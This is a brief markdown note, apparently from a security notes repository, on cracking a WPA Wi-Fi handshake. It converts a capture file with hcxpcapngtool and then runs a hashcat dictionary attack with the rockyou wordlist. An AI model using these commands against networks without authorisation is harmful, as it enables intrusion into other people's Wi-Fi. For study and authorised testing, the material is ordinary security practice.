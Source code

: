 ## capture the WPA handshake

[notes/000-aircrack.md](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-aircrack.md)


## setup

[Install hashcat](https://github.com/TurboLabIt/cybersec/blob/main/script/hashcat/install.sh)


## convert .cap to .22000

````shell
hcxpcapngtool -o handshake.22000 wifi-capture.cap

````

These warnings are "normal":

> Warning: out of sequence timestamps!
> 
> Warning: out of sequence timestamps!


## crack

````shell
hashcat -m 22000 handshake.22000 /usr/share/wordlists/rockyou.txt

````
